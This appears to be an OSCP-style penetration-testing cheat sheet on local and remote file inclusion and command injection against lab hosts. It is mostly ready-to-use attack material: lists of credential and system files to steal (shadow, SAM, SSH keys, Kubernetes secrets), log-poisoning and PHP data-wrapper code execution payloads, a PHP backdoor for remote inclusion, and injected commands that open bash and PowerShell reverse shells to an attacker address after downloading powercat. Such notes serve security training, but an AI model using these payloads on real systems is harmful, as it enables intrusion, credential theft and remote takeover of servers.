 ## LFI / RFI

ON OSCP, if you are able to find LFI anywhere, hunt down the SSH keys first

### Links
- [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)
- [Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/)
- [LFI Medium Article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601)
### Local File Inclusion:

1. Check if you can convert LFI to RFI
2. Try adding %00 to bypass the added extension on the server side. (Works on PHP < 5.3)
3. You can even add? to bypass it.
4. If you can't read php files: **php://filter/convert.base64-encode/resource=index**
5. Try reading important files from the system other than **passwd.** Enumeration might help in determining which files might be important. Maybe try checking the config files for the web app

### WINDOWS FILES

```
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

### LINUX FILES

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/resource=/etc/passwd
```

### LOG FILES

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

### RFI

```
file=data:text/plain,hello world
file=data:text/plain,<?php echo shell_exec("dir") ?>
```

### LFI and RFI Examples

```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/a pache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

w/php wrapper:

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64encode/resource=admin.php

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```

![File Inclusion Example](FileInclusionExample.png)

## Remote File Inclusion

```
//Simple PHP backdoor
<?php 
if(isset($_REQUEST['cmd'])){ 
	echo "<pre>"; $cmd = ($_REQUEST['cmd']); 
	system($cmd); echo "</pre>"; die;
?}>

Then:

python3 -m http.server 80
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simplebackdoor.php&cmd=ls"


```

## Command Injection

```

curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive

curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive

(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive

try system access with power cat:
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
nc -nvlp 4444

*This encoded: ```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```*
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive



```
